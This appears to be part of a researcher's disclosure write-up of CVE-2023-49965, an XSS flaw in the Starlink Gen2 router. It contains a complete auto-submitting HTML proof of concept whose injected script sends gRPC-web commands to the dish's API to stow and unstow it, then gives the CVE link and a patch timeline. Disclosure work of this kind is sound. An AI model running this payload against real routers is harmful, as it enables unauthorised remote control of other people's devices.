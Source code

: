 ## Exploit PoC (Proof of Concept)

---

Therefore, by chaining the `Cross-Site Scripting (XSS)` vulnerability and the aforementioned `bug`, a payload that sends a `Stow gRPC` request to `Dishy` can be constructed as follows: (The result is that an attacker can remotely take control of the `router` or `Dishy`. For example, they could send `gRPC` commands to change `router settings` or manipulate `Dishy's functionality`.)

```
<html>
	<body>
		<h1>Dishy Stow and Unstow</h1>
		<form id="PoC" method="POST" action="http://192.168.100.1/setup">
			<!-- <input type="hidden" name="ssid" value='" onfocus=javascript:alert(`XSS`); autofocus="'> -->
			<input type="hidden" name="password" value='"><script>for(let i=0;i<100;i++){setTimeout(()=>{var xhr=new XMLHttpRequest();xhr.open("POST","http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle",true);xhr.setRequestHeader("x-grpc-web","1");xhr.setRequestHeader("Content-Type","application/grpc-web+proto");xhr.onreadystatechange=()=>{if(xhr.readyState==4&&xhr.status==200){console.log(xhr.responseText);}};xhr.send(new Uint8Array([0,0,0,0,3,146,125,0]).buffer);setTimeout(()=>{var xhr2=new XMLHttpRequest();xhr2.open("POST","http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle",true);xhr2.setRequestHeader("x-grpc-web","1");xhr2.setRequestHeader("Content-Type","application/grpc-web+proto");xhr2.onreadystatechange=()=>{if(xhr2.readyState==4&&xhr2.status==200){console.log(xhr2.responseText);}};xhr2.send(new Uint8Array([0,0,0,0,5,146,125,2,8,1]).buffer);},1000);},i*2000);}</script><input type="hidden'/>
		</form>
		<script type="text/javascript">
			document.addEventListener("DOMContentLoaded", function() {
				document.getElementById("PoC").submit();
			});
		</script>
	</body>
<html>
```

# Demo

---

[Exploit-PoC.mp4](/blog/2023-Starlink-Router-Gen2-XSS/Exploit-PoC.mp4)

# CVE

- [CVE-2023-49965](https://www.cve.org/CVERecord?id=CVE-2023-49965)

# **TimeLine**

- 2023-10-10 : Vulnerability reported to SpaceX/Starlink
- 2023-10-12 : Recognized as a security vulnerability with a severity of Moderate ( Reward `$500` USD )
- 2023-11-01 : Patched in the latest release (The fix is in versions `2023.48.0` and up)
